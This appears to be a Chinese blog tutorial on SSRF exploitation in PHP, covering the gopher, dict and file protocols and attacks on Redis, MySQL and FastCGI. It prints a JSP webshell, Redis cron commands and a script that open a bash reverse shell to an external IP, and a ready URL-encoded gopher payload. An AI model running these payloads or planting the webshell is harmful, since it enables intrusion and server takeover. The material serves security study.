

SSRF概述
SSRF服务器请求伪造
是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。
简单来说：
服务器或多或少都会开启不止一个端口，有些端口（比如80）是可以从外网访问到的，而有些端口只是开启在服务器内部以供服务器内部程序的交互，无法通过外网访问
而现在开放给外网的端口的程序大多都有完善的防御机制，攻击这些程序无法或者很难获取到有效的信息。
但内部的程序往往不会有太高的安全防护，并且保存着重要的信息（例如数据库——3306端口）
SSRF就是通过伪造信息使服务器（使用外网端口的程序）向内部系统（端口没有映射外网，只能服务器内部访问的程序）发起请求，从而得到内部系统的信息甚至控制服务器的攻击方式

漏洞产生
由于服务端提供了从其他服务器应用获取数据的功能且没有对用户可控的目标地址做过虑与限制。
在PHP中的curl()，file_get_contents()，fsockopen()等函数是几个主要产生ssrf漏洞的函数。
file_get_contents()
file_get_contents是把文件写入字符串，当url是内网文件的时候，他会先去把这个文件的内容读出来再写入，导致了文件读取。
<?php
if(isset($_POST['url'])) //POST传参接收
{
$content=file_get_contents($_POST['url']); // 读取传参信息
$filename='./images/'.rand().'.img';\ // 设定路径
file_put_contents($filename,$content); // 保存
echo $_POST['url']; // 输出传入的信息
$img="<img src=\"".$filename."\"/>"; // 将传入文件以图片输出
}
echo $img;
?>
fsockopen()
fsockopen()函数本身就是打开一个网络连接或者Unix套接字连接。
<?php
$host=$_GET['url'];
$fp = fsockopen("$host", 80, $errno, $errstr, 30);
/*
* fsockopen()函数用于连接一个网址，相当于java网络编程的内容
8 第一个参数代表一个主机的地址，第二个表示端口
* $errno和$errstr无需人为的去定义，这是php自带的两个参数，
* $errno 是从型参中传进来的
*/
if (!$fp) {
// 如果打开失败，则返回错误信息
echo "$errstr ($errno)<br />\n";
} else {
/*仿写一个HTTP请求头*/
$out = "GET / HTTP/1.1\r\n";
$out .= "Host: $host\r\n";
$out .= "Connection: Close\r\n\r\n";
//把仿写的GET请求发送至host
fwrite($fp, $out);
//循环判断文件指针是否到了文件结束的位置
while (!feof($fp)) {
/*读取一行数据
*返回长度最多为 length - 1 字节的字符串。碰到换行符（包括在返回值中）、EOF 或者已经读取了 length - 1 字节后停止
*（看先碰到那一种情况）。如果没有指定 length，则默认为 1K，或者说 1024 字节。
*/
echo fgets($fp, 128); // 输出响应信息
}
fclose($fp);
}
?>
curl()
这应该是大家最熟悉的一个函数了，因为利用方式很多最常见的是通过file、dict、gopher这三个协议来进行渗透，接下来也主要是集中讲对于curl()函数的利用方式。
这里需要安装PHP的curl扩展 https://segmentfault.com/a/1190000009068818
function curl($url){
//初始化一个curl会话若传入参数，则可以手动的对url进行设置
/*curl_init(string $url);*/
$ch = curl_init();
//设置curl传输选项curl_setopt();
/*curl_setopt($curl_init【由curl_init返回的句柄】,option[CURLOPT_XXX选项],value[设置在选项上的值]);*/
curl_setopt($ch, CURLOPT_URL, $url); // 设置url
curl_setopt($ch, CURLOPT_HEADER, 0); // 设置请求头
curl_exec($ch); // 执行会话
curl_close($ch); // 关闭
}
$url = $_GET['url'];
curl($url);
下面就详细讲一下curl函数在ssrf中的具体利用方式。
SSRF漏洞利用
在进行SSRF攻击时需要明确两点
1、SSRF可以做到多少事情和使用的协议有关
2、要知道可以使用那些协议，需要知道网站使用的语言支持那些协议，以及存在SSRF的函数支持那些协议
不同计算机语言支持的常用协议：
查看函数支持的所有协议
通过百度或者查看文档，可以知道函数支持的相关协议
gopher协议
互联网上使用的分布型的文件搜集获取网络协议，出现在http协议之前。（可以模拟GET/POST请求，换行使用%0d%0a，空白行%0a）。
Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。
简单说该协议作用和语法与http一致，传输的格式略有不同
语法：
gopher://: / _后接TCP数据流
curl gopher://localhost:2222/_hello%0agopher
//在数据hello前要加一个无用字符
http://192.168.91.130/ssrf.php?url=gopher://localhost:2222/_hello%250agopher
//在地址栏使用时要url编码
http://192.168.91.130/ssrf.php?url=gopher://localhost:2222/_`whoami`
利用gopher协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。
gopher协议内部rce
http://192.168.91.130/ssrf.php?url=gopher://localhost:2222/_`whoami`
//只有自身服务器监听端口时可以实现任意命令执行
//但可以自定义命令，比如可以将执行的命令写入文件，然后进行读取，这样就可以造成rce
curl gopher://localhost:80/_`cat * > 4.txt`
//这种情况也不需要刻意的去监控端口，只需要选一个存在的端口发送即可
gopher协议攻击mysql
一般情况下，mysql都是运行在本地服务器的3306端口下，普通的方法无法防问，但SSRF可以
MySQL客户端连接并登录服务器时存在两种情况：需要密码认证以及无需密码认证。
- 当需要密码认证时使用挑战应答模式，服务器先发送salt然后客户端使用salt加密密码然后验证
- 当无需密码认证时直接发送TCP/IP数据包即可
MySQL客户端与服务器的交互主要分为两个阶段：连接阶段或者叫认证阶段和命令阶段。在连接阶段包括握手包和认证包，我们主要关注认证数据包。
认证包格式：
攻击原理：
gopher协议可以后接一个TCP数据流
mysql会通过TCP/IP套接字连接
所以我们可以自已建立一个和目标大致相仿的数据库，抓取mysql数据包，然后通过gopher协议将伪造的认证包和请求包发送3306端口，即可完成对mysql的攻击
详见：
https://blog.csdn.net/qq_41107295/article/details/103026470
``https://www.freebuf.com/articles/web/159342.html`
gopher攻击Fastcgi
详见：
https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html
https://www.jianshu.com/p/565217337247
Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。
HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。
类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。
CGI全称”通用网关接口”（Common Gateway Interface），用于HTTP服务器与其它机器上的程序服务通信交流的一种工具，CGI程序须运行在网络服务器上。
传统CGI接口方式的主要缺点是性能较差，因为每次HTTP服务器遇到动态程序时都需要重启解析器来执行解析，然后结果被返回给HTTP服务器。这在处理高并发访问几乎是不可用的，因此就诞生了FastCGI。另外传统的CGI接口方式安全性也很差。
FastCGI是一个可伸缩地、高速地在HTTP服务器和动态脚本语言间通信的接口（FastCGI接口在Linux下是socket（可以是文件socket，也可以是ip socket）），主要优点是把动态语言和HTTP服务器分离开来。
HTTP协议是浏览器和服务器中间件通信的协议，而Fastcgi是服务器中间件和语言后端通信的协议
这是因为中间件（HTTP服务器）不能动态的解析程序，所以需要Fastcgi来解析动态语言后，再交由http解析
FastCGI的重要特点：
- 1、FastCGI是HTTP服务器和动态脚本语言间通信的接口或者工具。
- 2、FastCGI优点是把动态语言解析和HTTP服务器分离开来。
- 3、Nginx、Apache、Lighttpd以及多数动态语言都支持FastCGI。
- 4、FastCGI接口方式采用C/S架构，分为客户端（HTTP服务器）和服务端（动态语言解析服务器）。
- 5、PHP动态语言服务端可以启动多个FastCGI的守护进程。
- 6、HTTP服务器通过FastCGI客户端和动态语言FastCGI服务端通信。
攻击要点
- libcurl版本>=7.45.0(由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断)
- PHP-FPM监听端口
- PHP-FPM版本 >= 5.3.3
- 知道服务器上任意一个php文件的绝对路径
dict协议
字典服务器协议。dict是基于查询相应的TCP协议。Dict服务器和客户机使用TCP端口2628，允许客户端在使用过程中访问更多字典。。漏洞代码没有屏蔽回显的情况下，可以利用dict协议获取ssh等服务版本信息。
在SSRF攻击中，gopher协议是最好用的，但gopher协议又自己的使用条件

利用dict协议可以探测端口的开放情况和指纹信息
dict协议语法：
dict://serverip:port/命令:参数
payload示例：
curl -v http://localhost/ssrf/ssrf.php?url=dict://127.0.0.1:6379/info
如果ssrf.php中加上一行屏蔽回显的代码curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);，那么这种方式就失效了，和gopher一样，只能利用nc监听端口，反弹传输数据了。
注意：dict协议后跟的命令可以直接被某些服务执行，比如redis
file协议
本地文件传输协议，主要用于访问本地计算机中的文件。
因为SSRF攻击的本质就是从外网攻击内网，所以只要函数支持file协议，那么file协议就可以读到文件
http/s
主要用来探测内网服务。根据响应的状态判断内网端口及服务，可以结合java系列0day和其他各种0day使用。
这个协议不做细说
反弹shell部分我写在了https://atmujie.github.io/2021/10/21/%E5%8F%8D%E5%BC%B9shell/
打穿内网（理一下SSRF的攻击思路）
参考https://www.sqlsec.com/2021/05/ssrf.html
没靶场，摘一下参考文章的说明，具体内容看参考文章
172.72.23.21 这个服务器的 Web 80 端口存在 SSRF 漏洞，并且 80 端口映射到了公网的 8080，此时攻击者通过这个 8080 端口可以借助 SSRF 漏洞发起对 172 目标内网的探测和攻击。
我这里以极客大挑战givemeyourlove为例
SSRF的判断
能够对外发起网络请求的地方，就可能存在 SSRF。
只要可以获取到内网文件，就一定存在SSRF
例如极客大挑战givemeyourlove
读取本地信息
判断SSRF存在后，接下来就是读取本地的信息进一步判断
/etc/passwd: 查看是否对内网文件有读取权限
/etc/hosts: 查看存活主机（内网主机），确认当前资产的网段信息
探测内网端口
探测内网端口主要方法
nmap扫描：知道内网存活主机ip的情况下，可以使用nmap扫描内网端口
参考链接
https://blog.51cto.com/lee90/1858381dict协议探测：SSRF常配合DICT协议探测内网端口，但不是所有的端口都可以被探测，一般只能探测出一些带 TCP 回显的端口
BP 下使用迭代器模式爆破，设置好要爆破的 IP 和 端口即可批量探测出端口开放的信息
目录扫描
在得知存活主机的端口后，就可以对其进行目录扫描，寻找可以攻击的漏洞点
然后在攻击点执行getshell等一系列的攻击操作
写入shell，getshell
无论怎么进行SSRF攻击内网，最后的一步操作大多是写入shell控制对方内网主机
就拿参考文章的例子来说
<%
String command = request.getParameter("cmd");
if(command != null)
{
java.io.InputStream in=Runtime.getRuntime().exec(command).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("");
while((a=in.read(b))!=-1)
{
out.println(new String(b));
}
out.print("");
} else {
out.print("format: xxx.jsp?cmd=Command");
}
%>
这个一个jsp的小马
Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）
将小马通过这个漏洞写入被攻击方服务器，然后执行，就是一个写入getshell的过程
auth 123123
flushall
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * /bin/bash -i >& /dev/tcp/1.15.225.114/2333 0>&1\n"
save
SSRF攻击redis
SSRF攻击redis有两种类型
1、无需密码（未授权攻击）
2、需要密码
构造数据包攻击
无论需不需要密码，都可以构建数据包进行攻击，这也是所有基于gopher协议的SSRF攻击通用的一点
流程：
1、先写一个.sh脚本，执行redis命令反弹shell
#shell.sh
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
/*在redis第0个数据库添加key为1，value为反弹shell语句的字段*/
/*echo -e 处理特殊字符，若字符串中出现特殊字符【如\n】，则加以处理，不会将它当成一般文字输出*/
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
socat转发获取TCP包
socat是一个多功能的网络工具
语法： socat [options]Socat 所做的工作就是在 2 个 address 指定的描述符间建立一个 pipe 用于发送和接收数据。
参考地址：
http://linux.51yip.com/search/socat
socat -v tcp-listen:2333,fork tcp:localhost:6379
-v 将中转的数据流明文显示
tcp-listen:2333,fork 监听端口2333,选项为转发
tcp:localhost:6379 转发地址
然后再开个页面运行命令脚本
bash shell.sh 127.0.0.1 2333
上图ERR是我服务器redis配置有问题，删OK的时候把它也删除就行
说一下SAVE失败的坑
这里顺便说一下，这是一个坑
我这里是新下载的redis，默认工作路径是/var/lib/redis
然而我们攻击时反弹shell和写入shell分别需要执行config set dir /var/spool/cron/和config set /var/www/html/
redis 对这几个目录均无读写权限，所以一但执行就会导致save命令报错
可以看到，上面save返回OK，下面报错
百度好半天都没解决，我就看了下日志
复制日志又半天，还是不行
仔细一寻思，好像大部分目录都没可写权限，包括html
然后
很好，成功被百度浪费一早上
这次复现成功让我明白了，SSRF攻击redis看似炫酷，实际和sql写马一样，鸡肋
都需要特定的条件，redis为
权限777的目录【或者本就能文件上传的目录】
或者root身份运行redis
如图，默认是redis用户身份
解决方式：通过root用户使用redis-server启动redis
redis-server /etc/redis/redis.conf

转换规则：
分别对每一行进行筛选
- 如果单行第一个字符是
>或者<那么丢弃该行字符串，该行是请求和返回的时间。 - 如果单行前3个字符是
+OK那么丢弃该行字符串，该行是返回的字符串。 - 将
\r字符串替换成%0d%0a - 空白行替换为
%0a
可以写python进行处理，这里引用参考文章的脚本
#用法: python tran2gopher.py socat.log
#coding: utf-8
#author: JoyChou
import sys
exp = ''
with open(sys.argv[1]) as f:
for line in f.readlines():
if line[0] in '><+':
if line[1] in '?':
exp = exp + line
else:
continue
# 判断倒数第2、3字符串是否为\r
elif line[-3:-1] == r'\r':
# 如果该行只有\r，将\r替换成%0a%0d%0a
if len(line) == 3:
exp = exp + '%0a%0d%0a'
else:
line = line.replace(r'\r', '%0d%0a')
# 去掉最后的换行符
line = line.replace('\n', '')
exp = exp + line
# 判断是否是空行，空行替换为%0a
elif line == '\x0a':
exp = exp + '%0a'
else:
line = line.replace('\n', '')
exp = exp + line
exp.replace("$", "%24")
exp.replace("<", "%3C")
exp.replace(">", "%3E")
exp.replace("?", "%3F")
print exp
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$62%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
将处理后的数据拼接gopher://xxx.xxx.xxx.xxx/_进行url编码

全OK代表成功
这里是写入一句话的脚本
需要密码在最开始写上就行
工具攻击
这个就多了，无密码自然用Gopherus ，有密码用 redis-ssrf
redis-ssrf：https://github.com/xmsec/redis-ssrf
这个工具需要redis-rogue-server提供exp.sohttps://github.com/n0b0dyCN/redis-rogue-server
Gopherus: https://github.com/tarunkant/Gopherus
Gopherus虽然无法对有密码的redis进行payload构建，但它是SSRF的万金油工具，攻击fastcgi、mysql都可以用
工具用法就不解释了
对PHP运行模式的补充
中间件三种运行方式
这点上面也写了，不过现在看实在是写的垃圾，所以这里简单解释一下
一、我们都知道网页是以http协议或者https传输的
当外部访问服务器php网站时，请求并不是直接交给程序处理，而是先交给中间服务器，也就是中间件
比如Nginx、Apache
取张参考文章的图
数据到达中间件后，http数据被解析，这时数据有三种办法去往php
apache2-module模式
把 php 当做 apache 的一个模块，实际上 php 就相当于 apache 中的一个 dll 或一个 so 文件，phpstudy 的非 nts 模式就是默认以 module 方式连接的。
CGI模式
此时 php 是一个独立的进程，中间件也是一个独立的进程，然后当中间件监听到 HTTP 请求时，会去调用 php-cgi 进程，他们之间通过 cgi 协议，服务器把请求内容转换成 php-cgi 能读懂的协议数据传递给 cgi 进程，cgi 进程拿到内容就会去解析对应 php 文件，得到的返回结果在返回给中间件，最后中间件返回到客户端
FastCGI模式
Fastcgi是对Cgi的优化，本质也是Cgi
FastCGI两种通信方式
在PHP使用FastCGI连接模式的情况下，中间件和PHP-FPM之间的通信方式又分为两种：
TCP模式
TCP模式即是PHP-FPM进程会监听本机上的一个端口（默认为9000），然后中间件会把客户端数据通过FastCGI协议传给9000端口，PHP-FPM拿到数据后会调用CGI进程解析。
Unix Socket模式
Unix套接字模式是Unix系统进程间通信（IPC）的一种被广泛采用方式，以文件（一般是.sock）作为socket的唯一标识（描述符），需要通信的两个进程引用同一个socket描述符文件就可以建立通道进行通信了。
相比之下，Unix套接字模式的性能会优于TCP模式。
这个运行模式有点类似Linux系统对文件描述符的调用